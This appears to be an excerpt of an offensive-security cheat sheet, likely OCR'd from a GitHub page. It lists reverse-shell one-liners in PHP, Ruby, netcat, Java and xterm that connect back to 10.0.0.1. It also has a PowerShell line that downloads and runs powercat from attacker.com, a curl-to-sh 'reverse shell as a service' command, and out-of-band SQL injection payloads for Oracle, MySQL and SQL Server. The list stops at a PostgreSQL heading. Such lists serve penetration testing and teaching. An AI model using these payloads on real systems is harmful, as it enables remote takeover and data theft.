 ```http://localhost:9001/2018-06-01/runtime/invocation/next```
<br># PHP
<br>```php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'```

<br># Ruby
<br>```ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'```

<br># Netcat
<br>```nc -e /bin/sh 10.0.0.1 1234```
<br>```rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f```

<br># Java
<br>```r = Runtime.getRuntime()```
<br>```p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])```
<br>```p.waitFor()```

<br># xterm
<br>```xterm -display 10.0.0.1:1```
<br>```Xnest :1```
<br>```xhost +targetip```

<br># powershell (without download)
<br>```echo IEX(New-Object Net.WebClient).DownloadString("http://attacker.com:8442/powercat.ps1") | powershell -noprofile; powercat -c attacker.com -p 8443 -e cmd```

https://reverse-shell.sh/
<br># Reverse Shell as a Service
<br>```nc -l 1337```
<br>```curl https://reverse-shell.sh/yourip:1337 | sh```

https://github.com/calebstewart/pwncat
<br># pwncat is a post-exploitation platform for Linux targets.

### SQLi (SQL Injection)
https://arxiv.org/abs/1303.3047
<br># This paper describes an advanced SQL injection technique where DNS resolution process is exploited for retrieval of malicious SQL query results.

https://livesql.oracle.com
<br># Learn and share SQL. Running on Oracle Database 19c.

https://www.db-fiddle.com
<br># An online SQL database playground for testing, debugging and sharing SQL snippets.

http://sqlfiddle.com/
<br># Application for testing and sharing SQL queries.

<br># Oracle
<br>```'||(SELECT%20UTL_INADDR.GET_HOST_ADDRESS('xpto.example.com'))||'```
<br>```'||(SELECT%20UTL_HTTP.REQUEST('http://xpto.example.com')%20FROM%20DUAL)||'```
<br>```'||(SELECT%20HTTPURITYPE('http://xpto.example.com').GETCLOB()%20FROM%20DUAL)||'```
<br>```'||(SELECT%20DBMS_LDAP.INIT(('xpto.example.com',80)%20FROM%20DUAL)||'```

<br># MySQL
<br>```'||(SELECT%20LOAD_FILE('\\xpto.example.com'))||'```

<br># Microsoft SQL Server
<br>```'+;EXEC('master..xp_dirtree"\\xpto.example.com\"');+'```
<br>```'+;EXEC('master..xp_fileexist"\\xpto.example.com\"');+'```
<br>```'+;EXEC('master..xp_subdirs"\\xpto.example.com\"');+'```

<br># PostgreSQL
```